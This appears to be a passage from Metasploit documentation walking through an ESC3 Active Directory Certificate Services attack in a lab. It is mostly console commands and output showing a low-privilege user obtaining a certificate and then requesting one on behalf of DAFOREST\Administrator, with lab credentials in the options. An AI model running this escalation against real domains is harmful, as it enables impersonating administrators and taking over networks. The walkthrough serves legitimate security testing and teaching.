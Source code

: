 ```msf
[*] Running module against 172.30.239.85

[*] 172.30.239.85:445 - Requesting a certificate...
[+] 172.30.239.85:445 - The requested certificate was issued.
[*] 172.30.239.85:445 - Certificate UPN: normal@daforest.com
[*] 172.30.239.85:445 - Certificate SID: S-1-5-21-3290009963-1772292745-3260174523-1611
[*] 172.30.239.85:445 - Certificate stored at: /home/gwillcox/.msf4/loot/20221216174221_default_unknown_windows.ad.cs_027866.pfx
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) > loot

Loot
====

host  service  type           name             content               info                         path
----  -------  ----           ----             -------               ----                         ----
               windows.ad.cs  certificate.pfx  application/x-pkcs12  DAFOREST\normal Certificate  /home/gwillcox/.msf4/loot/20221216173718_default_unknown_windows.ad.cs_580032.pfx
               windows.ad.cs  certificate.pfx  application/x-pkcs12  DAFOREST\normal Certificate  /home/gwillcox/.msf4/loot/20221216174221_default_unknown_windows.ad.cs_027866.pfx

msf6 auxiliary(admin/dcerpc/icpr_cert) >
```

Next, we'll try use this certificate to request another certificate on behalf of a different user. For this stage we need to specify another certificate that is vulnerable to the ESC3_TEMPLATE_2 attack vector that we are able to enroll in. We will use the `User` template for this:

```msf
msf6 auxiliary(admin/dcerpc/icpr_cert) > set PFX /home/gwillcox/.msf4/loot/20221216174221_default_unknown_windows.ad.cs_027866.pfx
PFX => /home/gwillcox/.msf4/loot/20221216174221_default_unknown_windows.ad.cs_027866.pfx
msf6 auxiliary(admin/dcerpc/icpr_cert) > set ON_BEHALF_OF DAFOREST\\Administrator
ON_BEHALF_OF => DAFOREST\Administrator
msf6 auxiliary(admin/dcerpc/icpr_cert) > show options

Module options (auxiliary/admin/dcerpc/icpr_cert):

   Name           Current Setting                 Required  Description
   ----           ---------------                 --------  -----------
   ALT_DNS                                        no        Alternative certificate DNS
   ALT_UPN                                        no        Alternative certificate UPN (format: USER@DOMAIN)
   CA             daforest-WIN-BR0CCBA815B-CA     yes       The target certificate authority
   CERT_TEMPLATE  ESC3-Template1                  yes       The certificate template
   ON_BEHALF_OF   DAFOREST\Administrator          no        Username to request on behalf of (format: DOMAIN\USE
                                                            R)
   PFX            /home/gwillcox/.msf4/loot/2022  no        Certificate to request on behalf of
                  1216174221_default_unknown_win
                  dows.ad.cs_027866.pfx
   RHOSTS         172.30.239.85                   yes       The target host(s), see https://github.com/rapid7/me
                                                            tasploit-framework/wiki/Using-Metasploit
   RPORT          445                             yes       The target port (TCP)
   SMBDomain      DAFOREST                        no        The Windows domain to use for authentication
   SMBPass        normalpass                      no        The password for the specified username
   SMBUser        normaluser                      no        The username to authenticate as


```